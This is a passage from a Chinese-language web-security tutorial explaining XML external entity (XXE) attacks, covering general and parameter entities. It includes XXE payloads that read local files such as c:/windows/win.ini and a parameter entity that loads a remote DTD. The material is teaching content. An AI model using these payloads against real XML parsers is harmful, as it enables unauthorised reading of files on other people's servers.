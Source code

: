 这里的 URL 也可以用 `file://` 协议来访问本地文件：

```
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

XXE 就是利用 DTD 进行外部文件访问。

图：不同平台支持的协议![不同平台支持的协议](https://xzfile.aliyuncs.com/media/upload/picture/20181120002647-e93bbf00-ec17-1.png)

这里不仅仅可以利用 `file://`, 还可以利用注入 `php://input` 之类的伪协议。

ps.一个文档的示例：

```xml
<!--XML声明-->
<?xml version="1.0" encoding="UTF-8"?>
<!--DTD，这部分可选的-->          
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini" >
]>
<!--文档元素-->                                                                          
<foo>&xxe;</foo>
```

##### something important

我们上面已经将实体分成了两个派别（内部实体和外部外部），但是实际上从另一个角度看，实体也可以分成两个派别（通用实体和参数实体）。

**1.通用实体**

用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用

**示例代码：**

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE updateProfile [<!ENTITY file SYSTEM "file:///c:/windows/win.ini"> ]> 
<updateProfile>  
    <firstname>Joe</firstname>  
    <lastname>&file;</lastname>  
    ... 
</updateProfile>
```

**2.参数实体：**

(1)使用 `% 实体名`(**这里面空格不能少**) 在 DTD 中定义，并且**只能在 DTD 中使用 `%实体名;` 引用**
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用

**示例代码：**

```
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;
```
